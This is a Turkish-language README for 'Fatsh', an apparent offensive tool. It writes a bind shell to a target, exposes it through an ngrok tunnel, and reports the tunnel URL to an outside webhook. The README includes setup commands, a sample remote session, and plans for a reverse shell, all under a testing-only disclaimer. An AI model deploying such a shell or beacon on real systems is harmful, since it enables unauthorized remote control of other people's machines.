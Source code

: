 # Fatsh

**Fatsh**, port yönlendirme (port forwarding), VPN, NAT geçişi gibi zahmetli adımlara gerek kalmadan hızlıca **bind shell oturumu kazanmanızı** sağlayan bir araçtır. Otomatik ngrok tüneli açar, webhook üzerinden bağlantı bilgilerini gönderir ve tek komutla hedef sistemle etkileşime geçmenizi mümkün kılar.

---

## 🚀 Özellikler

* 🔒 **Ngrok HTTP tüneli** ile güvenli bağlantı sağlar
* 📡 **Webhook URL’sine** otomatik olarak bağlantı URL’sini gönderir
* ⚙️ Kurulum gerektirmez, çalıştır ve kullan
* 🐚 Basit **bind shell komut arayüzü**
* 🔁 Versiyon kontrolü yaparak güncelleme olup olmadığını bildirir

---

##  Nasıl Çalışır?

1. `fatsh`, `ngrok` üzerinden yerel 65534 portunu internete açar.
2. Oluşan ngrok HTTP adresini, sizin belirlediğiniz **webhook URL’sine** POST eder.
3. Bu adres üzerinden HTTP GET parametresiyle (`/?cmd=ls`) bind shell komutları gönderilir.
4. Gelen çıktılar JSON formatında döner (`{"result": "komut çıktısı"}`).

---

## ⚙️ Kurulum ve Kullanım

```bash
git clone https://github.com/githur1234/fatsh.git
cd fatsh
bash ./setup.sh
```
# Not:
kurulumda setup.sh otomatik olarak py dosyasını çalıştırır diğer kullanımlarda ise
```bash
    bash fatsh
```
komutunu çalıştırmanız yeterlidir

### İlk kullanımda:

* Webhook adresiniz sorulur
* Ngrok Auth token’ınız alınır
* Tüm bilgiler `config.json` içerisine kaydedilir

---

## 📡 Webhook Kullanımı

Webhook, genellikle `webhook.site` veya Discord gibi sistemler üzerinden kullanılabilir. Ngrok adresi aşağıdaki gibi bir JSON body ile post edilir:

```json
{
  "ngrok": "http://1a2b3c4d5e.ngrok.io"
}
```

---

## 🐚 Bind Shell Kullanımı

### Shell oluşturmak:

```text
[1] make bind shell
```

Belirttiğiniz yola shell kodu yazılır.

### Shell'e bağlanmak:

```text
[2] connect bind shell
```

Ngrok URL'si girilir ve ardından direkt komut yazıp çalıştırabilirsiniz.

---

## 🛡️ Uyarı

> **Yasal uyarı**: Bu araç sadece eğitim ve test amaçlıdır. Yalnızca **izinli** sistemlerde kullanın. Geliştirici hiçbir illegal kullanımda sorumluluk kabul etmez.

---

## 🧪 Örnek Kullanım

```bash
fatsh@user>> 2
ngrok url: http://1a2b3c4d5e.ngrok.io
shell>> whoami
shell>> uname -a
```

---

## 📦 Bağımlılıklar

* Python 3.8+
* `requests`
* `colorama`
* `ngrok` (Python paketi)
* `shell.py` (proje içinde)

---

## 📁 Yapı

```
fatsh/
├── fatsh/
    ├── fatsh.py
    ├── shell.py
    ├── config.json
    ├── requirements.txt
├── README.md
|__ vs.txt
```

---

## 📌 Yol Haritası (TODO)

* [ ] TCP tünelleme desteği
* [ ] Çoklu webhook desteği
* [ ] Reverse shell modülü
* [ ] Güncelleme otomasyonu

---

## 🧑‍💻 Geliştirici

* [githur1234](https://github.com/githur1234)

---

